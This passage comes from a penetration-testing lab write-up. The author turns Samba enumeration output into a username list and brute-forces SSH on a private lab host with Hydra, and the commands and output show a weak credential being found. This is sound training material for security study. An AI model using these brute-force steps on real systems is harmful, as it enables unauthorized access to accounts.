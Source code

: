 The config file for vsftpd and a Wordpress backup! I tried grep'ing for passwords and looked over the config file, but nothing overly obvious, so again I left these for later in case nothing else works out. For now, I thought about trying my luck again on SSH with the new users. First I put the output from the Samba enumeration in a file and then I selected only the username part and put it in the users file:

``` 
cat userlist | cut -d'\' -f2 | cut -d' ' -f1 > users
cat users
peter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

There has to be a reason for the ease of enumerating all these users, so I used the file to bruteforce the SSH login, to have something going while working on other services. I used Hydra with the *nsr* flag for additional checks of "n" for null password, "s" try login as pass, "r" try the reverse login as pass. And I got something super fast!

``` 
hydra -L users -e nsr 192.168.217.141 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-06-02 07:49:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 90 login tries (l:30/p:3), ~6 tries per task
[DATA] attacking ssh://192.168.217.141:22/
[22][ssh] host: 192.168.217.141   login: SHayslett   password: SHayslett
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-06-02 07:50:11
```
